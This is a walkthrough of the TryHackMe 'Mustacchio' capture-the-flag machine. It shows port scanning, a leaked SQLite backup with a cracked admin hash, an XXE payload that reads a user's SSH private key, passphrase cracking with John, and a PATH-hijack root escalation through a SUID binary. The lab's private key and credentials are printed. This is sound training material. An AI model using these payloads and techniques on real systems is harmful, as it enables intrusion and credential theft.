 # Mustacchio
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine.

Tags
--
* Fuzzing
* SQLite3

Tools used
--
* nmap
* sqlite3

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.8.16.123

Victim:
* Name: victim_machine
* IP Address: 10.10.130.191
* Other information must be gathered during the attack

Phase 1: Enumeration
--
```
sudo nmap -sS -sC -sV 10.10.130.191 -p- -T5 -vvv

<SNIP>
PORT     STATE  SERVICE REASON         VERSION
22/tcp   closed ssh     reset ttl 63
80/tcp   closed http    reset ttl 63
8765/tcp open   http    syn-ack ttl 63 nginx 1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```
Phase 2: Foothold
--
Let's try to fuzz on the web application. According our fuzzing, we found a `custom` directory containing `users.bak` file. This file is a SQLite3 file so we can download it and open it by:
```
sqlite3 users.bak
.dump
```
and we get:
```
SQLite version 3.42.0 2023-05-16 12:36:15
Enter ".help" for usage hints.
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users(username text NOT NULL, password text NOT NULL);
INSERT INTO users VALUES('admin','1868e36a6d2b17d4c2745f1659433a54d4bc5f4b');
COMMIT;
```
Decode this password hash and we get `bulldog19`. We can use this credential for accessing to `http://10.10.130.191:8765` Admin Panel.

Once accessed to Admin Panel, let's use Burp for intercepting the website response. We can note that, when we submit a comment, om the HTTP response we see two interesting strings:
```
//document.cookie = "Example=/auth/dontforget.bak";
```
and
```
<!-- Barry, you can now SSH in using your key!-->
```
We can access to `http://10.10.130.191:8765/auth/dontforget.bak` and download this file. It contains the following text:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```
Try to use this XML code above on the "Add comment" section and submit it. Remember to delete all spaces and characters at the end of XML code after `</comment>`. We can use the following payload on the comment section of the website:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE com [
  <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">
]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
<com>&xxe;</com>
</comment>
```
and we get on the website the following output (take the output by HTTP history of Burp because formatted well):
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```
Store it in a file named `id_rsa` and then run:
```
ssh -i id_rsa barry@10.10.130.191
```
It will ask for a passphrase. Let's crack it by John:
```
ssh2john id_rsa > hash.txt
john hash.txt --wordlist=$ROCKYOU

urieljames       (id_rsa)
```
Now we can access by SSH by using this password and get the user flag.

Phase 3: Privilege Escalation
--
By searching for SETUID files by `find / -perm -u=s -type f 2>/dev/null`, we note `/home/joe/live_log` file. By using `strings` command, we note that it has:
```
tail -f /var/log/nginx/access.log
```
We can use `PATH` environment variable for getting root shell. Let's create a file `/tmp/tail` with the following content:
```
/bin/sh
```
and assign executable permissions by `chmod +x /tmp/tail`. Then, run:
```
export PATH=/tmp:$PATH
```
Run `/home/joe/live_log` and you will get the root shell.

